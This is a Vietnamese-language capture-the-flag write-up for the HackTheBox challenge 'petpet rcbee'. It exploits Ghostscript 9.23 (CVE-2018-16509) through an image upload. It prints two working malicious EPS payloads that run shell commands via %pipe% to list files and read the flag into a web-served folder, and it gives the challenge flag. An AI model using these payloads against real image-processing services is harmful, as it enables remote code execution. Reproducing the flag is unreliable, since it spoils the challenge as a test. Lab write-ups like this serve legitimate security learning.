 # petpet rcbee

Lướt qua một vòng ứng dụng thì mình thấy chỉ có chức năng upload file. Vào Dockerfile đọc thử mình thấy ở đây có sử dụng thư viện ghostscript-9.23.

Search google mình thấy có một CVE ([CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)) liên quan đến thư viện này cho phép RCE. Mình sử dụng đoạn content đã craft như trong hình dưới đây để test thử.

![image](https://github.com/user-attachments/assets/a8279e17-b5de-43cc-bbd3-09951c8fc22e)

![image](https://github.com/user-attachments/assets/1026643a-f209-4904-a033-d6de85e3844e)

Kết quả trả về confirm đã thành công.

Bây giở thì mình cần tìm kiếm file flag xem ở đâu.

Sau một hồi tìm kiếm mình phát hiện flag đang nằm ở thư mục hiện tại

![image](https://github.com/user-attachments/assets/bdce785d-e16a-4019-9c0b-7ba2ebe999fa)

Đây là payload được sử dụng để liệt kê các thư mục sau đó chuyển vào thư mục mình được phép truy cập
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%ls > /app/application/static/petpets/vanh.txt) currentdevice putdeviceprops
```

Tiếp đến ca chỉ cần đọc flag sau đó chuyển vào một file bất kì có thể đọc được thôi

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/vanh.txt) currentdevice putdeviceprops
```

*Flag: HTB{c0mfy_bzzzzz_rcb33s_v1b3s}*




